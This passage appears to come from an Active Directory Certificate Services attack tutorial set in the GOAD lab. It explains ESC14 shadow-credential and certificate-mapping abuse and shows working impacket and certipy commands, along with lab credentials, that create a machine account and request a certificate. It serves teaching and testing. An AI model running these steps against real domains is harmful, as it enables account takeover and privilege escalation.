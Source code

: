 ```bash
The command completed successfully.
```

### Group Requirements

The linked group must be:
- **Empty** (no actual members)
- **Universal scope** (forest-wide)

Common universal groups include Enterprise Admins, Schema Admins, Enterprise Key Admins.

## ESC14: Shadow Credentials and Advanced Certificate Mapping

ESC14 represents advanced certificate mapping abuse techniques that go beyond basic `altSecurityIdentities` manipulation covered in ESC10. This technique focuses on shadow credentials and sophisticated certificate-to-account mapping scenarios.

### Technical Background

ESC14 exploits advanced certificate mapping mechanisms including:
- **Shadow Credentials**: Abusing `msDS-KeyCredentialLink` attribute for certificate-based authentication
- **Advanced Certificate Mapping**: Sophisticated manipulation of certificate-to-account relationships
- **Cross-Domain Certificate Abuse**: Exploiting certificate mappings across domain boundaries

### Attack Scenarios

**ESC14A - Shadow Credentials Abuse:**
- Attackers with write permissions on user objects can add shadow credentials
- Allows certificate-based authentication without traditional certificate enrollment
- Bypasses many traditional ADCS controls

**ESC14B - Advanced Certificate Mapping:**
- Sophisticated certificate mapping scenarios beyond basic ESC10 techniques
- Cross-domain certificate abuse in multi-domain environments like GOAD
- Certificate mapping persistence mechanisms

### Exploitation Process

Let's demonstrate ESC14 techniques in our GOAD environment. ESC14A - altSecurityIdentities Manipulation in GOAD:

```bash
# First, create a computer account for certificate mapping
addcomputer.py -method ldaps -computer-name 'esc14computer$' -computer-pass 'Il0veCertific@te' -dc-ip 192.168.56.12 essos/missandei:fr3edom@192.168.56.12

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account esc14computer$ with password Il0veCertific@te.

# Request machine certificate for our created computer
certipy req -target braavos.essos.local -u 'esc14computer$@essos.local' -p 'Il0veCertific@te' -dc-ip 192.168.56.12 -template Machine -ca ESSOS-CA -debug

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\esc14computer$
[*] Template                : Machine
[*] Subject                 : CN=esc14computer, CN=Computers, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 25
```